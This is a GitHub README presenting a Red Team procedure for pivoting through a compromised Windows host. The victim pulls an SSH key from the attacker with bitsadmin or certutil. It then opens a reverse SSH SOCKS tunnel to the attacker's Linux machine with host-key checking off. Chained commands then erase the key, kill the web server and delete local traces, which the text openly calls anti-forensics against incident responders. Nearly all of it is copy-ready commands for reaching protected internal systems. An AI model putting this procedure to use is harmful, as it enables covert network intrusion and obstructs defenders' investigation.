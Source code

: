# win-ssh-rvsproxy
Tunneling Socks proxy through Windows.

This document presents a Red Team approach for SSH tunneling to a Socks proxy on a compromised Windows computer from an external attacker-controlled Linux host.  How the Windows computer is compromised is not covered here; the assumption is that you have a way to run commands on the victim host.

The following diagram shows the scenario.  An external attacker system (A) is running sshd to allow tunnel creation, and will also run python SimpleHTTPServer to serve an ephemeral SSH key to allow the Windows computer (B) to log in.  The Windows target (B) will execute the built-in ssh.exe command line utility and create a Socks proxy, through which the attacker (A) can access other systems protected behind the firewall, such as the web server (C).

![alt text](https://github.com/billchaison/win-ssh-rvsproxy/blob/main/01.png)

**Preparing the attack host**<br />

* On host (A) create a disposable SSH key pair.  The key will be destroyed after use in order to prevent reuse by incident responders.
  `cd /root`
  `ssh-keygen -t rsa -b 2048 -N "" -f /root/temp_rsa -q`
  `cat /root/temp_rsa.pub >> /root/.ssh/authorized_keys && chmod 600 /root/.ssh/authorized_keys`
* On host (A) launch python simple HTTP server.  This will allow the victim computer (B) to dynamically fetch the temporary private SSH key to login and start the tunnel.
  `python -m SimpleHTTPServer 80`

**Start the proxy server**<br />

* On the victim Windows computer (B) you will need to find a way to copy the SSH private key to the user's `%tmp%` path in this example.  Two possibilities are as follows.
  `%SYSTEMROOT%\System32\bitsadmin.exe /transfer n http://192.168.1.242/temp_rsa %tmp%\temp_rsa`
  `%SYSTEMROOT%\System32\certutil.exe -urlcache -split -f http://192.168.1.242/temp_rsa %tmp%\temp_rsa`
* On the victim Windows computer (B) create the reverse proxy and tunnel.  Once connected to the attacker computer (A) the temporary key will be stripped from the authorized_keys file and the python web server will be terminated.  Also the private key stored on machine (B) under `%tmp%` will be deleted after the tunnel is destroyed by the attacker.  These are anti-forensics techniques to prevent incident responders from gaining access to your attacker machine (A).
  `%SYSTEMROOT%\System32\OpenSSH\ssh.exe -o StrictHostKeychecking=no -i %tmp%\temp_rsa -R localhost:1080 root@192.168.1.242 "grep -v -f /root/temp_rsa.pub /root/.ssh/authorized_keys > /root/.ssh/authorized_keys.bak && mv /root/.ssh/authorized_keys.bak /root/.ssh/authorized_keys && kill $(lsof -t -i:80) && bash" & del %tmp%\temp_rsa`

**Using the reverse proxy**<br />

From the attacker host (A) you can configure a browser to use the local Socks proxy on 127.0.0.1 port 1080.  You should now be able to access the protected web server (C) by going to https://10.1.2.4

Any other protected service behind the firewall could be accessed through Socks tunnel as long as the tools on the attacking machine (A) support Socks or you have proxychains configured to use 127.0.0.1 port 1080.
